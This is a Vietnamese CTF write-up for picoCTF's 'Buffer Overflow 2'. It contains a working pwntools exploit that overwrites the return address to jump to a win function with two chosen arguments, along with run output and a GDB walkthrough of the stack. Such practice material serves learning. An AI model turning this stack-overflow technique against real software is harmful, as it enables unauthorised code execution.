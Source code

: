# Buffer Overflow 2

## Description

> Control the return address and arguments

## Solution

Các bước tìm offset đến EIP vẫn như BOF0 và BOF1 nên mình sẽ skip qua bước này

Trong source code có đoạn&#x20;

```c
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
```

Tức là khi ta ghi đè EIP với địa chỉ của hàm win thì ta cần phải truyền thêm 2 giá trị arg1 và arg2 để vượt điều kiện

Khi ta nhập 1 lượng buffer đủ nhiều để đến EIP và sau khi return nó sẽ nhảy sang hàm win. Đặc biệt ta cần phải tạo lại một cái stack cho hàm win tương tự như vậy:

<figure><img src="../../../.gitbook/assets/image (190).png" alt=""><figcaption></figcaption></figure>

## Exploit

```python
#!/usr/bin/python3

from pwn import *

# context.log_level = 'debug' 
exe = context.binary = ELF('./vuln', checksec=False)



# Shorthanding functions for input/output
info = lambda msg: log.info(msg)
s = lambda data: p.send(data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
sla = lambda msg, data: p.sendlineafter(msg, data)
sn = lambda num: p.send(str(num).encode())
sna = lambda msg, num: p.sendafter(msg, str(num).encode())
sln = lambda num: p.sendline(str(num).encode())
slna = lambda msg, num: p.sendlineafter(msg, str(num).encode())
r = lambda: p.recv()
rl = lambda: p.recvline()
rall = lambda: p.recvall()

# GDB scripts for debugging
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''

b*win
c
''')

p = remote('saturn.picoctf.net', 51113) if args.REMOTE else process(argv=[exe.path], aslr=False)
if args.GDB: 
    GDB()
    input()

# ===========================================================
#                          EXPLOIT 
# ===========================================================

payload = b'A'*112 # buf
payload += p32(exe.sym['win']) # EIP = win addr
payload += b'A'*4 # Junk for saved RBP
payload += p32(0xCAFEF00D) # arg1
payload += p32(0xF00DF00D) # arg2

sla(b'string:',payload)
p.interactive()

```

```bash
➜  BOF_2 python3 exploit.py
[+] Starting local process '/home/alter/Pico/pwn/BOF_2/vuln': pid 7109
[!] ASLR is disabled!
[*] Switching to interactive mode

\xf0\xfe\xcaAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08AAAA
FLAG{helloiloveyou}
```

### GDB explain

Để hiểu rõ exploit hơn ta có thể dùng GDB để debug thử

* Breakpoint tại win và xem payload của chúng ta như thế nào

```bash
Breakpoint 1, 0x08049296 in win ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────── registers ────
$eax   : 0x81
$ebx   : 0x41414141 ("AAAA"?)
$ecx   : 0x2aa5c8a0  →  0x00000000
$edx   : 0x0
$esp   : 0xffffccd0  →  0x41414141 ("AAAA"?)
$ebp   : 0x41414141 ("AAAA"?)
$esi   : 0x080493f0  →  <__libc_csu_init+0000> endbr32
$edi   : 0x2aaa9b60  →  0x00000000
$eip   : 0x08049296  →  <win+0000> endbr32
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
───────────────────────────────────────────────────────────────── stack ────
0xffffccd0│+0x0000: 0x41414141   ← $esp
0xffffccd4│+0x0004: 0xcafef00d
0xffffccd8│+0x0008: 0xf00df00d
0xffffccdc│+0x000c: 0x00000300
0xffffcce0│+0x0010: 0xffffcd00  →  0x00000001
0xffffcce4│+0x0014: 0x2aa5ae34  →  0x00228d2c
0xffffcce8│+0x0018: 0x00000000
0xffffccec│+0x001c: 0x2a856c75  →   add esp, 0x10
─────────────────────────────────────────────────────────── code:x86:32 ────
    0x8049289 <__do_global_dtors_aux+0029> lea    esi, [esi+eiz*1+0x0]
    0x8049290 <frame_dummy+0000> endbr32
    0x8049294 <frame_dummy+0004> jmp    0x8049220 <register_tm_clones>
●→  0x8049296 <win+0000>       endbr32
    0x804929a <win+0004>       push   ebp
    0x804929b <win+0005>       mov    ebp, esp
    0x804929d <win+0007>       push   ebx
    0x804929e <win+0008>       sub    esp, 0x54
    0x80492a1 <win+000b>       call   0x80491d0 <__x86.get_pc_thunk.bx>
─────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x8049296 in win (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────── trace ────
[#0] 0x8049296 → win()
────────────────────────────────────────────────────────────────────────────
gef➤  i r
eax            0x81                0x81
ecx            0x2aa5c8a0          0x2aa5c8a0
edx            0x0                 0x0
ebx            0x41414141          0x41414141
esp            0xffffccd0          0xffffccd0
ebp            0x41414141          0x41414141
esi            0x80493f0           0x80493f0
edi            0x2aaa9b60          0x2aaa9b60
eip            0x8049296           0x8049296 <win>
eflags         0x286               [ PF SF IF ]
cs             0x23                0x23
ss             0x2b                0x2b
ds             0x2b                0x2b
es             0x2b                0x2b
fs             0x0                 0x0
gs             0x63                0x63
gef➤  i r ebp esp
ebp            0x41414141          0x41414141
esp            0xffffccd0          0xffffccd0
gef➤  x $eip
0x8049296 <win>:        0xfb1e0ff3
```

Ta có thể thấy sau khi nhảy sang hàm win, payload của chúng ta đã ghi đè saved RBP với giá trị **0x41414141**

Nó tương tự như này

```bash
+------------------+ <-- ESP (đỉnh của stack)
|  Saved EIP       |  (Địa chỉ tiếp theo sau khi hàm kết thúc)
+------------------+
|  Saved EBP       |  (Giá trị của EBP trước khi vào hàm)
+------------------+
|  Tham số 1       |  
+------------------+
|  Tham số 2       | 
+------------------+
|  . . .           |  (Các tham số tiếp theo hoặc biến cục bộ)
+------------------+
|  . . .           |
+------------------+ <-- EBP 
```
